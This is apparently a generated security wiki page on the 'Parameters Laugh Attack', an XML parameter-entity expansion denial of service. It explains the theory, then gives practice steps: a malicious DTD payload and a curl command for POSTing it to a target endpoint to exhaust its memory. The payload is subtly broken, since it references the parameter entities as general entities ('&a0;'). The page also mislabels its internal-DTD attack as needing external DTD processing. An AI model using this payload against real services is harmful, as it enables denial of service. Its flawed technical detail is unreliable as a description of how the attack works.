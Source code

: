 ```yaml
---
title: 'Parameters Laugh Attack: XXE Denial of Service Insight'
description: Explore the Parameters Laugh Attack, a denial of service technique using
  XML parameter entity expansion.
keywords:
- Parameters Laugh Attack
- XXE exploitation
- denial of service
- parameter entities
- XML vulnerabilities
- Sebastian Pipping
- XML entity expansion
- resource exhaustion
- cybersecurity
---
```


# Parameters Laugh Attack

## Context

The Parameters Laugh Attack is a specialized form of XML External Entity (XXE) exploitation used to perform denial of service (DoS) on targeted servers. The attack leverages parameter entity expansion within XML documents to exhaust system resources, such as memory and CPU. This attack builds upon foundational understanding of XML structure, entity declaration, parameter entities, and standard XXE attack mechanisms.

## Theory

### Parameter Entities in XML and Their Abuse

Parameter entities are a specific type of XML entity that are declared with a '%' sign and are utilized within Document Type Definitions (DTDs) rather than within the document's content. They can reference other entities, allowing for the creation of recursive expansions. If these parameter entities are not properly handled, they can be exploited to cause resource exhaustion within the server processing the XML document.

### Parameters Laugh Attack: Concept and Mechanism

A Parameters Laugh Attack is a variant of the Billion Laughs attack, employing parameter entities to induce exponential expansion. In this attack, an attacker carefully crafts a DTD with deeply nested parameter entities, which results in massive memory consumption during parsing by XML parsers. Some XML parsers impose fewer restrictions on parameter entity expansion than on general entity expansion, allowing this attack to bypass certain mitigations.

### Historical Context and Discovery

Parameters Laugh Attack was discovered by Sebastian Pipping, who demonstrated how parameter entity bombs can exploit overlooked vulnerabilities in XML parsing. These attacks highlight a significant risk, especially in systems where mitigations are targeted solely at general entities, leaving the parameter entity vector exposed.

## Practice

### Crafting and Delivering a Parameters Laugh Attack Payload

- Begin by creating a malicious XML file with a DTD containing recursively defined parameter entities. This forms the basis of the Parameters Laugh Attack.
  
```xml
<!DOCTYPE root [
  <!ENTITY % a0 "a">
  <!ENTITY % a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY % a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY % a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  %a3;
]>
<root/>
```

- This DTD setup recursively expands parameter entities, creating an exponential growth of entity replacements during parsing.

- Submit this XML payload to a vulnerable XML parser endpoint, such as via an HTTP POST request. Ensure the target server is configured to process external DTDs and supports parameter entities.

```bash
curl -X POST -H "Content-Type: application/xml" --data-binary @malicious.xml http://target/vulnerable-endpoint
```

- Replace `http://target/vulnerable-endpoint` with the actual endpoint that is vulnerable to such attacks.

### Outcome

Successful execution of a Parameters Laugh Attack will cause the target XML parser to exhaust its available memory or CPU resources, effectively resulting in a denial of service. This can cause the targeted service to slow down significantly, become unresponsive, or crash entirely.

## Tools

- **curl**
- **Burp Suite**
- **Custom XML editors** 
